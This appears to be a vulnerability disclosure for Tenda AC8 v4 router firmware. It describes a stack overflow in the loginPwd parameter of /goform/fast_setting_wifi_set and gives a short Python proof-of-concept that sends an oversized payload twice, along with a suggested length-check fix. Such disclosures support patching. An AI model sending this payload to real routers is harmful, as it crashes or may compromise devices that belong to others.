 ## Affected Version
* Tenda AC8 v4 US_AC8V4.0si_V16.03.34.06_cn

## Vulnerability Description
Tenda AC8 v4 US_AC8V4.0si_V16.03.34.06_cn  was discovered to contain a stack overflow via parameter loginPwd at url **/goform/fast_setting_wifi_set**.Through this stack overflow and a carefully constructed ROP chain, RCE can be achieved.

## Vulnerability Details
**In function sub_44D898 (in function form_fast_setting_wifi_set), there is no limit on the length of loginPwd, and the SetValue("sys.userpass", v3); function can be called. When accessing this URL again, GetValue("sys.userpass", v4); will cause a stack overflow through v4.**

![alt text](image.png)

* exp

```python
import sys
import requests

payload = b'A'*0x500

url = f"http://192.168.50.100/goform/fast_setting_wifi_set"
data = {
    "loginPwd":payload
}
requests.post(url=url, data=data)
#Visit the URL again and use the GetValue("sys.userpass", v4) function to overflow the stack
requests.post(url=url, data=data)

```

## Any suggested solutions to fix
check loginPwd length before SetValue
